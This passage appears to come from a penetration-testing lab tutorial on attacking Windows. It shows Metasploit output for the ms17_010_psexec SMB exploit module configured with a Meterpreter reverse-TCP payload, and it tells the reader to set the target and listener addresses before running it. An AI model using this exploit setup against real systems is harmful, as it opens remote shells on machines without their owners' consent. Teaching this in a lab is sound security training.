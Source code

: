 ```shell-session
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Be sure to set your payload options correctly before running the exploit. Any options that have `Required` set to yes will be a necessary space to fill. In this instance, we need to ensure that our `RHOSTS, LHOST, and LPORT` fields are correctly set. For this attempt, accepting the defaults for the rest is OK.

#### Validate Our Options

  Infiltrating Windows

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as
```